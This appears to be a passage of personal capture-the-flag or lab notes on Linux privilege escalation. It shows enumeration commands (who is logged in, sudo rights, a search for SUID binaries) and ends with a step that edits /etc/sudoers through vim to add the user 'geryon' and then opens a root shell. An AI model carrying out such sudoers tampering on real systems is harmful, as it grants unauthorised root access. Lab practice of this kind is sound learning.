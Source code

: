##### whoami Actually?
```
w
```
![Pasted image 20250605001359](../zzAttachments/Pasted%20image%2020250605001359.png)

##### Check sudo privileges
```
sudo -l
```
![Pasted image 20250605001448](../zzAttachments/Pasted%20image%2020250605001448.png)

##### SUID bits set
```
find / -type f -perm -4000 2>/dev/null
```
![Pasted image 20250605001640](../zzAttachments/Pasted%20image%2020250605001640.png)

##### Use vim to add geryon to the sudoers group
```
vim /etc/sudoers
:wq!
sudo -i
```
